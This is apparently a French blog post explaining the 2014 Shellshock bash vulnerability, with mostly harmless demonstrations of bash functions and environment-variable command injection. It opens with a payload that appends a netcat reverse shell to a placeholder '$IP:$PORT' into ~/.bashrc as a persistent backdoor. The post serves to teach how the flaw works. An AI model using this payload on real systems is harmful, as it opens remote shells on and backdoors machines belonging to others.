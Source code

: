 ```yaml
---
title: La vulnérabilité Shellshock
date: 2020-02-28 11:30:00
tags:
  - apache
  - article
  - bash
  - ctf
  - web
---
```


[Shellshock](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271) est une vulnérabilité présente dans bash 4.3 et antérieur. Il s'agit d'une vulnérabilité logicielle qui se base sur de l'injection de commande en passant par les variables d'environement. C'est vachement cool car elle mène à une **bonne grosse RCE des familles**, donc c'est pas négligeable 😘.

## Statistiques

Quelques statistiques afin d'illustrer la portée et l'attention portée de la vulnérabilité.

![Stonks gif](https://media.giphy.com/media/YnkMcHgNIMW4Yfmjxr/giphy.gif)

Shellshock a beaucoup été à la mode quand elle est sortie, énormément de trafic a été généré par des botnets lors de tentatives d'exploitation de la vulnérabilité.

**Bon faut que je trouve des stats mais c'est un autre problème**

## Comment ça marche ?

![Thinking gif](https://media.giphy.com/media/lKXEBR8m1jWso/giphy.gif)

```shell
env _='() { echo "Yeah ma boi"; }; echo "nc -e /bin/bash $IP $PORT" >> ~/.bashrc;'; bash -c 'echo "Bonjour à tous"'
```

Là on force l'utilisateur à lancer un shell sur `$IP:$PORT` à chaque fois qu'il va ouvrir un shell, mais on peut immaginer d'innombrables autres scénarios d'attaque, de compromission de machine, ou de porte dérobée.

Pour comprendre le fonctionnement de cette payload, on va la prendre par étape.

### Les fonctions dans bash

Si vous n'êtes pas connaisseur, il est possible de créer des fonctions dans bash directement, la syntaxe est la suivante :

```shell
my_function () {
  echo "Hello"
}

# Ou plus explicitement

function my_function () {
  echo "Hello"
}
```

Pour l'exécuter on peut l'appeller de cette manière :

```shell
$ my_function
Hello
```

### Utiliser une variable d'environnement avec bash

Les variables d'environnement permettent de gérer pas mal de choses, mais principalement de passer des valeurs d'un programme à un autre, sans passer par des étapes compliquées.

> Note : les variables type `$PATH`, `$SHELL`, `$PWD`, `$TERM`... sont des variables d'environnement, utilisables par des programmes.

En bash :

```shell
$ env BoC='ovgr bh pbhvyyr'
$ env | grep BoC
BoC=ovgr bh pbhvyyr # On a bien notre nouvelle variable d'environnement

# On peut aussi déclarer une fonction :
$ env my_function='() { echo "aHR0cHM6Ly9ncGguaXMvMWEzWDV0UQ==" | base64 -d; }'
```

On peut même les utiliser dans un sous-shell :

```shell
$ env my_function='() { echo "aHR0cHM6Ly9ncGguaXMvMWEzWDV0UQ==" | base64 -d; }'; bash -c 'my_function;'
```

> L'utilisation de variables d'environnement dans des sous-shells a été supprimée depuis, mais si vous voulez quand même tester, Docker ou VM 😉

### Injection

La partie sympa de Shellshock, c'est qu'on pouvait injecter une commande à exécuter via les variables d'environnement, en ajoutant la commande à la suite de la déclaration d'une fonction :

```shell
$ env a='() { echo "This is my function"; }; echo "Not in the func"'; bash -c 'a;'
Not in the func # Ne devrait pas être appelé !
This is my function
```

![Mind blown gif](https://media.giphy.com/media/26ufdipQqU2lhNA4g/giphy.gif)

Donc ouais, Shellshock c'est quand même vachement cool 😎.

